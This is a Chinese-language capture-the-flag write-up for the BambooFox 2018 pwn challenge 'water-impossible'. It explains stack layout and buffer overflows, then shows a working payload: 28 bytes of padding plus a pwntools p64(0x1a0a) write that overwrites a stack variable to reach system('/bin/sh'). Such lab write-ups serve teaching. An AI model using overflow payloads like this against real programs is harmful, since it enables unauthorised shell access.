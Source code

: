 # water-impossible

> Challenge Link: [water-impossible](http://ctf.bamboofox.cs.nctu.edu.tw/challenges#water-impossible)
>
> Category: pwn
>
> Writeup: [water-impossible](https://github.com/frozenkp/CTF/tree/master/2018/BambooFox_CTF_2018/water-impossible)

Welcome !! Challenger ~

Here is a simple challenge for you.

Try to find the key to pass.

`nc bamboofox.cs.nctu.edu.tw 58799`

[water-impossible.zip](http://ctf.bamboofox.cs.nctu.edu.tw/files/bb63dedd19b55a8fab5a08f28dea6269/water-impossible.zip)

## 須具備的知識

### Stack

stack 是程式在執行中用來儲存資料的結構，儲存的資料如

- 暫時的值
- return address
- 區域變數
- ...

### rsp

`rsp` 是用來儲存 stack 所在位置的暫存器

### 區域變數

宣告區域變數時，會將值存在 stack 上

假設宣告兩個變數 a, b

```c
int a = 1;
int b = 2;
```

宣告 a 時，stack 狀態如下

```
+----------+    0x7fffffffe728	low
|  a = 1   |
+----------+ 	0x7fffffffe730
|   ...    |
+----------+    0x7fffffffe738	high
```

宣告 b 時，stack 狀態如下

```
+----------+    0x7fffffffe720 	low
|  b = 2   |
+----------+	0x7fffffffe728
|  a = 1   |
+----------+	0x7fffffffe730
|   ...    |
+----------+    0x7fffffffe738	high
```

當 push 值進 stack 時，`rsp` 的位置會減足夠的大小，讓新的值可以填進來，所以後進來的 b 反而會存在較低位的地方

### Buffer overflow

在讀取輸入的時候，輸入的大小超過變數的大小，此時多的部份會超越區域變數的位址，進而蓋到 stack 上的其他位置

假設有一程式如下

```c
int key = 0xdeadbeef;
char buf[16] = {0};
gets(buf);
```

宣告後 stack 狀態如下

```
+----------------+  0x7fffffffe720    low  <-----+
|     0x0	 |				 |
+----------------+  0x7fffffffe728 		 |  buf[16]
|     0x0	 | 				 |
+----------------+  0x7fffffffe730         <-----+-----+
|   0xdeadbeef   |                                     | key
+----------------+  0x7fffffffe738    high <-----------+
```

因為 gets 沒有限制輸入的長度，因此可以輸入超過 buf 長度，此時多的部份就會蓋到 stack 其他部份

例如輸入 `aaaaaaaabbbbbbbbcccccccc`

```
+----------------+  0x7fffffffe720    low  <-----+
|   aaaaaaaa	 | 				 |
+----------------+  0x7fffffffe728               |  buf[16]
|   bbbbbbbb 	 |                               |
+----------------+  0x7fffffffe730         <-----+-----+
|   cccccccc   	 | 				       | key
+----------------+  0x7fffffffe738    high <-----------+
```

原本 `key` 存的位置就被 buf 的輸入蓋掉了

## 觀察

觀察一下code後可以發現觸發`system("/bin/sh")`的條件為`(int)token == 6666`

而token是一個宣告在`main`但從未被使用到的變數

```c
if((int)token == 6666){
  printf("wow, That's impossible to touch this token ?!");
  system("/bin/sh");
}
```

另外可以被exploit的部份為`read()`的 buffer overflow

```c
char key[16];
read(0, key, 40);
```

通常這類題目可能的作法有以下兩種

### 蓋 return

如果stack一直往下蓋的話可以碰到`return`，那就直接跳到`system("/bin/sh")`就好了

不過這題有限制長度40，所以沒辦法蓋到return

### 蓋 token

因為`token`也是宣告在stack上，應該可以找到`token`的位置後直接蓋成想要的值

## 解法

以下解法是用蓋token的方法

### 找 paylod 長度

先輸入以下字串來定位

```
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF
```

到`if((int)token == 6666)`時 stack 狀態如下

![](https://i.imgur.com/0wDePvP.png)

上圖可以看到`token`的位置以及內容是`[rbp-0x4] : 0x7fffffffdf1c ("DDDDEEEEEEEE0آ\367\377\177")`

由此可知到`token`之前，所需要的 payload 長度是 **28** ，也就是

```
AAAAAAAABBBBBBBBCCCCCCCCDDDD
```

### 蓋token的值

因為這支程式是在 **64位元** 的環境編譯的，所以送的時候要給64位元的位址，使用 pwntool 的話只要用`p64()`就可以囉

```python
r.sendline(payload + p64(0x1a0a))
```
